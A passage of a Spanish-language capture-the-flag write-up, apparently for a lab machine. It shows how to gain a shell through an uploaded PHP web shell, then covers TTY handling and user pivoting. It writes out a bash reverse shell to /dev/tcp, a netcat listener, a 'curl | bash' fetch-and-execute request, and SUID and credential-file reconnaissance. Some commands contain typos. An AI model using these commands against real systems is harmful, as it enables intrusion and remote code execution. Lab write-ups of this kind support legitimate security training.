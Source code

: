 ### Ganando accesso desde la s4vishell.php {-}

1. Creamos un fichero index.html con el contenido siguiente

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    ```

1. lanzamos un servidor web con python

    ```bash
    python3 -c http.server 80
    ```

1. nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. desde la web lanzamos el comando `http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=curl 10.10.14.15 | bash`

ganamos accesso al systema como el usuario www-data

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Vemos aqui que no podemos leer la flag porque no podemos entrar en las carpetas de **yossi** o de **moshe**. Tenemos que hacer un user pivoting.

### User Pivoting {-}

```bash
whoami
cd /home
cd yossi
cd moshe
sudo -l
find \-perm -4000 2/dev/null
cd /var/www/html
ls
cat connection.php
```
